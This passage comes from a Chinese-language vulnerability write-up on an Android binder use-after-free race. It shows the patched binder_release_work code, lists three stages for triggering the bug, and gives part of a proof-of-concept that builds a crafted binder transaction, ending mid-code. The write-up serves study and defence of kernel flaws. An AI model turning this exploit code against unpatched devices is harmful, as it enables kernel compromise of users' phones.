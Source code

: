 ```
                struct list_head *list)
{
    struct binder_work *w;
    enum binder_work_type wtype;
 
    while (1) {
        binder_inner_proc_lock(proc);
        /*
         * Since the lock on `proc` is held while calling
         * `binder_dequeue_work_head_ilocked` and reading the `type` field of
         * the resulting `binder_work` stuct, we can be sure its value has not
         * been tampered with.
         */
        w = binder_dequeue_work_head_ilocked(list); //这里的对binder_work->w加了锁。
        wtype = w ? w->type : 0;
        binder_inner_proc_unlock(proc);
        if (!w)
            return;
 
        switch (wtype) { /* <--- Use-after-free not possible anymore */
 
// [...]

```

poc 可以分为三个阶段触发：

1.  生成一个 transaction 来触发 bug
2.  发送 BINDER_THREAD_EXIT
3.  多线程来竞争  
    在步骤 1 中必须包含 BINDER_TYPE_BINDER 或者 BINDER_TYPE_WEAK_BINDER 类型的对象  
    ![](https://bbs.pediy.com/upload/attach/202012/726411_3RX3CF9CE786EY7.png)

所以 poc 为

```
/*
 * Generates a binder transaction able to trigger the bug
 */
static inline void init_binder_transaction(int nb) {
    /*
     * Writes `nb` times a BINDER_TYPE_BINDER object in the object buffer
     * and updates the offsets in the offset buffer accordingly
     */
    for (int i = 0; i < nb; i++) {
        struct flat_binder_object *fbo =
            (struct flat_binder_object *)((void*)(MEM_ADDR + 0x400LL + i*sizeof(*fbo)));
        fbo->hdr.type = BINDER_TYPE_BINDER;//这时候会创建binder_node
        fbo->binder = i;
        fbo->cookie = i;
        uint64_t *offset = (uint64_t *)((void *)(MEM_ADDR + OFFSETS_START + 8LL*i));
        *offset = i * sizeof(*fbo);
    }
 
    /*
     * Binder transaction data referencing the offset and object buffers
     */
    struct binder_transaction_data btd2 = {
        .flags = TF_ONE_WAY, /* we don't need a reply */
        .data_size = 0x28 * nb,
        .offsets_size = 8 * nb,
        .data.ptr.buffer = MEM_ADDR  + 0x400,
        .data.ptr.offsets = MEM_ADDR + OFFSETS_START,
    };
```